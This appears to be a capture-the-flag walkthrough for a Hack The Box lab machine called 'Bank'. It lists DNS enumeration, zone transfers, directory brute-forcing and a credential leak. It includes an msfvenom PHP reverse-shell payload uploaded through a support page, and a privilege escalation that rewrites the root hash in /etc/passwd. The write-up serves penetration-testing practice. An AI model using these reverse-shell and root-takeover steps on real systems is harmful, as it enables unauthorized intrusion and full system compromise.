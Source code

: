#### Enumeration
- Open Ports port `port 22, 53,80`
- No information gathered from the DNS Server
- Virtual host is guessed `bank.htb` and added to the `/etc/hosts`
- `balance-transfer` directory enumerated
- One file varies in size and reveals valid creds due to `failed encryption`
- The creds are used to login to the `web-app`
- `File Upload` in support page
- Comment found in page source
```html
I added the file extension .htb to execute as php for debugging purposes only
```

#### Shell Obtain
##### Via Metasploit
```bash
msfvenom -p php/meterpreter/reverse_tcp lhost=<your-ip> lport=<listening port> -f raw > shell.htb
```
- Upload the shell.htb in the support page and navigate to /uploads dir to get executed

##### Unintended Way
- In `burp` the support.php contents can be viewed without authentication as it mis-handles redirections


#### Priv Esc
- On running the `emergency` binary, the user is escalated to root group and root shell is obtained



#### Commands:

**DNS port Poking**
```bash
nslookup
> SERVER 10.10.10.29
# ask for who is localhost 127.0.0.1 Possiblities might expose a new host
> 127.0.0.1
# reverse lookup
> 10.10.10.29
# guessing the host name and it responds
> bank.htb
```

**DNS Recon**
```bash
# gathers all the host from 127.0.0.0 - 127.0.0.255 in the name server 10.10.10.29
dnsrecon -r 127.0.0.0/24 -n 10.10.10.29
# some host file may be included in 127.0.1.0 - 127.0.1.255
# If the 24 is replaced wirth `127.0.0.0/16` range will be from 127.0.0.0 - 127.0.255.255, if 8, 3 octacs will be checked
dnsrecon -r 127.0.1.0/24 -n 10.10.10.29
# On the 10 subnet
dnsrecon -r 10.10.10.0/24 -n 10.10.10.29
```

**DNS Zone Transfer**

```bash
# zone transfer without specifing a domain
dig axfr @10.10.10.29
# zone transfer on specifying the domain
dig axfr bank.htb @10.10.10.29
```

**Directory Enumeration**
```bash
python3 dirsearch.py -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e php -f -t 20 -u http://bank.htb
```

**Multiple files download and sorting**
```bash
# wget
# wgets all the files recursively
wget -r http://bank.htb/balance-transfer/
# sort
# obtains the no. of characters in each file and arranges in a decending order
wc -c *.acc | sort -nr 
```

**Find files with specific permission**
```bash
find / -perm -4000 -exec ls -la 2>/dev/null
```

**Editing passwd file**
```bash
- openssl passwd ippsec
<generated hash>
- vi /etc/passwd
# change the x field with the generated hash
root:asdasds:.......
- su  root
ippsec
```
